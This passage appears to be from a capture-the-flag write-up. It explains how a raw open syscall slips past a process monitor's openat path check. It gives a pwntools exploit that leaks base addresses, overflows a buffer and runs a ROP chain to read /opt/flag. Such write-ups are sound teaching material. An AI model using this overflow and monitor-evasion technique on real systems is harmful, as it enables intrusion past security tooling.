 We can see that pathname is in rsi for openat, but for open the "flags" variable is passed in rsi. So when you do a normal open syscall edr runs strstr on NULL which is fine and won't crash. If you call open from libc it uses openat internally, so you have to use the "syscall" function.

This payload also gets you the flag without touching the edr process:
```py
def cheese():
    global io
    io = conn()
    io.recv()
    pmon = procdump(b"process_monitor")

    exe.address = get_base(pmon, b"/process_monitor")
    libc_addr = get_base(pmon, b"libc")
    libc.address = libc_addr
    info("Libc: " + hex(libc.address))
    info("exe: " + hex(exe.address))
    rop = ROP(libc)
    rop.read(0, exe.bss(), 16)
    rop.call(libc.sym.syscall, [2, exe.bss(), 0])
    rop.read(5, exe.bss(), 32)
    rop.write(1, exe.bss(), 32)

    payload = flat(
        cyclic(offset),
        rop.chain()
    )
    io.sendline(b"2")
    io.sendline(payload)
    io.send(b"/opt/flag\x00")
    io.interactive()
```